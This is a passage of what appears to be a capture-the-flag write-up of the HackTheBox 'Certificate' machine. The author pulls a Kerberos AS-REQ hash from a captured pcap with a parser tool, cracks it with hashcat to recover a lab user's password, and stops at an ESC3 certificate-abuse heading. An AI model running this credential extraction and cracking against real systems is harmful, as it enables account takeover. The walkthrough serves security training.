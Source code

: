 ### Cracking AS REQ from pcap

There's a pcap file in sara.b's Documents directory. I'll download it over to my host and view it in Wireshark.

```
*Evil-WinRM* PS C:\Users\Sara.B\Documents> gci WS-01

    Directory: C:\Users\Sara.B\Documents\WS-01

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap
```

The captured traffic contains some SMB traffic where the user was trying to authenticate as administrator, but those all failed so we can ignore.
What's of interest to us is the captured Kerberos authentication requests, specifically the pre-authentication request.

![alt text](/assets/img/2025-10-05-htb-certificate/pcap.png)

I've shown extracting the fields from Wireshark to crack the AS-REQ request on my blog before, so I won't go through it manually.
There's this [tool](https://github.com/jalvarezz13/Krb5RoastParser) that can do the heavylifting for us, and parse the packets nicely for us for cracking.

```
python3 krb5_roast_parser.py ../WS-01_PktMon.pcap as_req
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

We're able to crack the AS REQ and obtain Lion.SK's password.

```
hashcat -m 19900 asreq.txt /usr/share/wordlists/rockyou.txt                                                  
...[SNIP]...
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:!QAZ2wsx
```

## User as ryan.k

### ESC3 to enroll certificate as another user
